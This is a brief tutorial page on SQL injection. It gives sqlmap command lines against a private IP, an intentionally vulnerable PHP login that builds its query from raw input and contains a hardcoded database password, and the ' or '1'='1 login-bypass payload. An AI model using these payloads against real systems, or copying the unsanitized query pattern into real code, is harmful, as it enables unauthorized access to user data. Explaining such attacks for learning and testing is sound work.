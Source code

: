 # SQL-injections

## Tldr

```
# Post
./sqlmap.py -r request.txt -p username

# Get
sqlmap -u "http://192.168.1.101/index.php?id=1" --dbms=mysql

# Crawl
sqlmap -u http://192.168.1.101 --dbms=mysql --crawl=3
```

## How does sql-injections work?

So we have a website that is written in php. We have a login functionality, where the code looks like this:

```php
mysql_connect("localhost", "pelle", "mySecretPassowrd") or die(mysql_error());

mysql_select_db("myHomepage");

if ($_POST['uname'] != ""){
    $username = $_POST['username'];
    $password = $_POST['password'];
    $query = "SELECT * FROM users WHERE username = '$username' AND password='$password'";
    $result = mysql_query($query);
    $row = mysql_fetch_array($result);
}
```

So the user input is not filtered or sanitized in any way. Which means that what the users puts in in the login-form will be executed my mysql. So just like in xss-injections we just try to escape the input field to be able to execute sql-commands. So if we input the following into the user-field and password-field in the login:

```
whatever' or '1'='1
whatever' or '1'='1
```

The query will look like this:

```
$query = "SELECT * FROM users WHERE username = 'whatever' OR '1'='1' AND password='whatever' OR '1'='1'";
```

Since they both become true the database will retrieve all users and we will be able to bypass the login.
